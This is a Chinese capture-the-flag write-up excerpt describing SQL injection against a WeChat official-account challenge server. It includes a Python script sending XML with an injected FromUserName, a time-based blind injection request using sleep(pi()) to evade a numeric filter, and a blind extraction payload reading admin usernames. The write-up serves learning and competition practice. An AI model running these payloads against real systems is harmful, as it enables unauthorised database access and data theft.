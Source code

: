 出题人给出了公众后后面的地址，查看微信公众号的SDK可以发现可以通过一些xml数据进行发送
```
import requests

url = "http://39.107.33.77/"
content = "Test http://www.baidu.com TEAMKEY icq3be93d38562e68bc0a86368c2d6b2"

data = '''
<xml>
   <ToUserName><![CDATA[a]]></ToUserName>
   <FromUserName><![CDATA[1',(select content from note limit 3,1))--]]></FromUserName> 
   <CreateTime>1348831860</CreateTime>
   <MsgType><![CDATA[text]]></MsgType>
   <Content><![CDATA[%s]]></Content>
   <MsgId>1234567890123456</MsgId>
   <AgentID>1</AgentID>
</xml>
''' % content

print requests.post(url,data=data).content
```
通过提示存在注入，可以得到以下信息
```
<xml>
<ToUserName><![CDATA[1',(select content from note limit 3,1))--]]></ToUserName>
<FromUserName><![CDATA[a]]></FromUserName>
<CreateTime>1521882365</CreateTime>
<MsgType><![CDATA[text]]></MsgType>
<Content><![CDATA[Success!
Start Time:You can leave me message here: http://wc.qwb.com:8088/leave_message.php 
Over Time:Sat Mar 24 09:06:05 2018]]></Content>
<MsgId>1234567890123456</MsgId>
</xml>
```
绑定host: `wc.qwb.com` 的ip为`39.107.33.77`

![](https://ctfwp.wetolink.com/2018qiangwang/11.jpeg)

其中message存在注入，限制的比较严格

```
POST /leave_message.php HTTP/1.1
Host: wc.qwb.com:8088

user=aaaaaaaaaaaaaaa&email=aaaa@qq.com&team=icq3be93d38562e68bc0a86368c2d6b2&message=1'-(sleep(ceil(pi())))-'1&submit=submit
```

![](https://ctfwp.wetolink.com/2018qiangwang/12.jpeg)

比如sleep函数参数里面不能用数字，可以使用`pi()`来绕过，另外就是`select from`部分。
```
message=12333'-(if(ascii(substring((select@b:=group_concat(username)from{cl0und.adminuser}),%s,1))like'%s',sleep(pi()),0))-'1
```
这里字段都需要猜解，猜不到password字段
